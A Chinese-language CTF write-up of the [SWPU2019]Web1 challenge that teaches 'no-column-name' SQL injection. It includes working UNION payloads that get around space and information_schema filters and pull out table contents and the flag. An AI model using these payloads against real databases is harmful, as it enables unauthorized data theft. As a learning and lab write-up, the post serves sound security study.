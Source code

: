 ```yaml
---

title: 日常练习21——无列名注入

date: 2021-04-23 19:40:07

tags: 练习

categories: test70

---
```

今天学到一个新的sql注入方式——无列名注入，现在做一下记录。  

# [SWPU2019]Web1  
打开题目，发现是一个登陆界面，可以注册，那么我们就先注册一个账号登入进去。  

[![](https://img.imgdb.cn/item/6084e01fd1a9ae528f3c8470.png)](https://img.imgdb.cn/item/6084e01fd1a9ae528f3c8470.png)  

发现是一个发布广告的界面，先发一条广告测试一下。  

[![](https://img.imgdb.cn/item/6084e062d1a9ae528f3d56fc.png)](https://img.imgdb.cn/item/6084e062d1a9ae528f3d56fc.png)  

随便测试了一条广告，可以看到成功发布了，显示的就是我们写入的广告名和广告内容。   

对于这种发布广告并且回显的题目，不是xxs攻击就是sql注入，我先测试了xxs攻击，发现虽然确实存在xxs的漏洞，可以回显，但是却没有什么可以利用的地方，那么接着就只能考虑sql注入了。   

这里我犯了一个错误，因为一开始看到url栏里有?id=1的信息，我以为是在这里有sql注入，其实并不是这样的，这道题的sql注入点在我们申请发布广告时的广告名这里。   

比如我们申请一个广告，广告名为：  

	-1' union select 1,2,3#  

[![](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)  

发现有字符被过滤了，这也说明这里确实存在sql注入的地方。  

如果我们这样构造   

	-1' union select 1,2,3'  

却可以成功申请，但是广告名却变成**-1'unionselect1,2,3'**，并且会出现sql的报错。  

[![](https://img.imgdb.cn/item/6084e2cfd1a9ae528f45b929.png)](https://img.imgdb.cn/item/6084e2cfd1a9ae528f45b929.png)   

在报错时可以发现它过滤了空格，同时我们也可以发现这道题目的sql注入不再时以#或者--+来闭合而是通过单引号来闭合。（这个要经过不断测试才能得出）  

那么接下来我们就是查询列数，并查看是哪几位有回显。  

	-1'/**/union/**/select/**/1,2,3,4,5'  

[![](https://img.imgdb.cn/item/6084e442d1a9ae528f4aaeb7.png)](https://img.imgdb.cn/item/6084e442d1a9ae528f4aaeb7.png)  

发现列数还是少了，我们一个一个加，发现到22的时候成功出现回显。  

	-1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084e541d1a9ae528f4dc1f3.png)](https://img.imgdb.cn/item/6084e541d1a9ae528f4dc1f3.png)   

回显是2，3位，接着就是查数据库名。  

	-1'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084e59fd1a9ae528f4eee58.png)](https://img.imgdb.cn/item/6084e59fd1a9ae528f4eee58.png)  

得到数据库名web1，然后查表名。  

	-1'union/**/select/**/1,database(),(select group_concat(table_name) from information_schema.tables where table_schema='web1'),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

但是发现被拦截了

[![](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)    

看了别人的wp发现应该是information _schema.tables的某个单词被过滤了，但是但Mysql5.6及以上版本中 innodb _index _stats 和innodb _table _stats这两个表中都包含所有新创建的数据库和表名，所以我们可以这样构造：  

	-1'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

来绕过information _schema.tables的过滤（又学到一个新的绕过小方法）。  

[![](https://img.imgdb.cn/item/6084e75ad1a9ae528f544cdd.png)](https://img.imgdb.cn/item/6084e75ad1a9ae528f544cdd.png)  

得到表名，但是根据查询表名的过滤来看，我们如果使用information _schema.columns应该也会被过滤，但是我们却没有另外的表来绕过查询列名了，那么我们该如何在不知道列名的情况下查询呢？这里就要用到无列名注入了。   

---

## 无列名注入

这里我使用别的大佬的MySQL测试图片来讲解。  

要想了解无列名注入就要先了解无列名查询。  

顾名思义，无列名查询就是不需要列名就能查询表中每一列数据。比如下面这个叫xxx的表  

[![](https://img.imgdb.cn/item/6084eaf1d1a9ae528f854b56.png)](https://img.imgdb.cn/item/6084eaf1d1a9ae528f854b56.png)

它有三列，分别为：id，user,password，我们用无列名查询看一下  

	select 1,2,3 union select * from xxx;  

[![](https://img.imgdb.cn/item/6084eb77d1a9ae528f8aa1d4.png)](https://img.imgdb.cn/item/6084eb77d1a9ae528f8aa1d4.png)  

可以看到，此时得到了一个虚拟表，列名分别为1，2，3，其中存储了xxx表中的所有数据。  

注意，在查询的时候语句的字段数要和表中的一样，否则会报错。  

而我们的无列名注入就是利用无列名查询，通过无列名查询构造一个虚拟表，在构造此表的同时查询其中的数据。  

	select `2` from (select 1,2,3 union select * from xxx)n  

这句查询语句就是一个典型的无列名查询，这个语句中的结尾的n是我们创建的新的虚拟表的名字，可以任意输入字符。而select 1,2,3 union select * from xxx则是为xxx这个表的列名赋予了新的列名，分别为1，2.3。而我们查询的是这个虚拟表的列名为2的信息。  

这里的2要用反引号括起来，这是一个细节。  

[![](https://img.imgdb.cn/item/6084ed4bd1a9ae528f9ae187.png)](https://img.imgdb.cn/item/6084ed4bd1a9ae528f9ae187.png)  

可以看到成功查询到了第二列的信息。  

但是在做题过程中，它可能会过滤反引号``，这时我们就需要给字段取别名。  

	select 1 as a,2 as b,3 as c union select * from xxx;  

这里的as就是取别名的操作。  

[![](https://img.imgdb.cn/item/6084ee4bd1a9ae528fa251cf.png)](https://img.imgdb.cn/item/6084ee4bd1a9ae528fa251cf.png)  

可以看到列名被换成了a,b,c，我们也就可以使用a,b,c来查询。  

以上就是关于无列名注入的基本讲解。  

---  

接下来我们回到题目，因为不能直接查询列名，我们使用无列名注入。  

这里的表有  

	FLAG_TABLE,news,users,gtid_slave_pos,ads,users  

要想找flag要一个个试，我们这里直接说结果，flag在user表中。  

这个表有三列，这个需要自己和上面一样一个一个判断，我们先查询第二列的内容。  

	-1'union/**/select/**/1,(select/**/group_concat(aa)/**/from/**/(select/**/1,2/**/as/**/aa,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084f087d1a9ae528fb172a0.png)](https://img.imgdb.cn/item/6084f087d1a9ae528fb172a0.png)  

发现有flag和admin字符，那么flag应该在第三列。  

	-1'union/**/select/**/1,(select/**/group_concat(aa)/**/from/**/(select/**/1,2,3/**/as/**/aa/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084f0f4d1a9ae528fb41ff1.png)](https://img.imgdb.cn/item/6084f0f4d1a9ae528fb41ff1.png)  

得到flag。   

# 小结  

这道题是一个新的关于sql注入的知识点，也就是无列名注入，原理并不难理解，实际操作也不难，而这道题目之外的小知识点也需要记录，比如存放所有表名的并不是只有那一个表，取别名来绕过反引号过滤等等。只能说sql注入路还很远。要学的还有很多  

下面附上sql无列名注入学习博客：  

[sql注入之无列名注入](https://blog.csdn.net/weixin_46330722/article/details/109605941?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161932292416780255247671%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=161932292416780255247671&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-109605941.first_rank_v2_pc_rank_v29&utm_term=%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5)